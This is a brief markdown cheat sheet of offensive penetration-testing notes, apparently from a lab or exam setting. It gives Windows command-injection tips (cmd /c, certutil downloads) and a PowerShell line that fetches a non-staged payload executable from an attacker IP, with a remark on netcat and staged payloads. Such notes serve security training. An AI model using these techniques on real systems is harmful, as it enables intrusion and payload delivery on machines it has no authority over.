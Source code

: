 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.

# File Transfer
**Note: Netcat doesn't know how to handle a staged payload**
PowerShell:
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
